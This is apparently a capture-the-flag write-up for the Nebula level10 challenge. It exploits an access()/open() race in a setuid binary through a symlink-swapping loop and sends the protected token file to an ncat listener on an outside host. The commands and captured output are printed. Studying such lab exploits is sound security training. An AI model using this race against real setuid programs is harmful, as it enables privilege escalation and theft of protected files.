 The goal here is to use the `flag10` binary to read the `token` file.

```shell
level10@nebula:~$ ls -lah /home/flag10
total 14K
drwxr-x--- 2 flag10 level10   93 2011-11-20 21:22 .
drwxr-xr-x 1 root   root     160 2012-08-27 07:18 ..
-rw-r--r-- 1 flag10 flag10   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag10 flag10  3.3K 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag10 level10 7.6K 2011-11-20 21:22 flag10
-rw-r--r-- 1 flag10 flag10   675 2011-05-18 02:54 .profile
-rw------- 1 flag10 flag10    37 2011-11-20 21:22 token

level10@nebula:~$ /home/flag10/flag10 /home/flag10/token 192.168.144.1
You don't have access to /home/flag10/token
```

We can race the program by getting it to read a symlink that initially points
to a file owned by the real UID (level09) and changing that symlink to point
to the `token` file after the `access()` function call and before the `open()`
function call.

We start by setting up a listener on port 18211 to receive the token file. We
use the `-k` flag to keep the listener alive between connections.

```shell
% ncat -nlvkp 18211

Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 67C3 CB2E CE15 70FF E1BE BF0D 07B7 8B49 7FCD 1DB9
Ncat: Listening on :::18211
Ncat: Listening on 0.0.0.0:18211
```

On the Nebula system, we open two terminals. On the first terminal, we run a
loop that constantly swaps the `/tmp/token` symlink between pointing to
`/tmp/faketoken` and `/home/flag10/token`.

```shell
level10@nebula:~$ touch /tmp/faketoken
level10@nebula:~$ while :; do ln -fs /tmp/faketoken /tmp/token; ln -fs /home/flag10/token /tmp/token; done
```

On the second terminal, we constantly run the `flag10` binary against
`/tmp/token`.

```shell
while :; do /home/flag10/flag10 /tmp/token 192.168.144.1 ; done
```

We will eventually see the token being sent to our listener.
```shell
... snip ...
Ncat: Connection from 192.168.144.191:57857.
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
... snip ...
```
